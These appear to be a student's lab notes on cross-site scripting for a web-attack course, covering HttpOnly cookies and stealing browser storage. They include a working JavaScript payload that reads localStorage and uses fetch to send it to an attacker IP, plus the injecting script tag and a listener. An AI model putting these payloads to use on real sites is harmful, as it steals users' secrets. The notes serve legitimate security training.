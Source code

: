 Excellent! However, let's uncheck the "Use Non-HttpOnly Cookie" and check "Use HttpOnly Cookie" instead. When we click _Render_, the page loads normally again, but if we check the log, we don't find a cookie.
![[Pasted image 20240731180151.png]]
![[Pasted image 20240731180215.png]]
When a cookie is set with the HttpOnly flag, JavaScript cannot access it so we can't exfiltrate its value. This is how XSS can be mitigated


---------

#### Stealing Local Secrets - `sessionStorage might wanna review`

Web applications have the ability to store data in a user's browser, a feature typically used to store larger amounts of data. For example, an application that lets us edit documents might store the document locally in the browser as a cache before it's sent to the server to be saved. This ensures that even if the user closes the tab, they don't lose their data. However, local storage might also contain secrets like API keys or personal user information.

There are two types of storage available to us: [_sessionStorage_](https://developer.mozilla.org/en-US/docs/Web/API/Window/sessionStorage) and [_localStorage_](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage). The only difference between the two is the level of persistence. While localStorage will keep the data until explicitly deleted, sessionStorage will keep the data until the tab is closed. The localStorage data can be accessed by using the _window.localStorage_ property, while sessionStorage can be accessed with _window.sessionStorage_.

To exfiltrate `localStorage`, we'll convert the object into a string, URL encode the string, and use _fetch_ to send the data back to us.

`localStorage` Payloads:
```js
┌──(root💀gobots)-[02Aug2024 13:15:17]-[/home/kali/SUT/OSWA/xss]
└─# vim xss3.js   

┌──(root💀gobots)-[02Aug2024 13:15:49]-[/home/kali/SUT/OSWA/xss]
└─# cat xss3.js   
let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://192.168.45.223/exfil?data=" + encodedData)

┌──(root💀gobots)-[02Aug2024 13:15:57]-[/home/kali/SUT/OSWA/xss]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
Payload to test against own kali machine 1st
```js
<script src="http://192.168.45.223:80/xss3.js"></script>
```

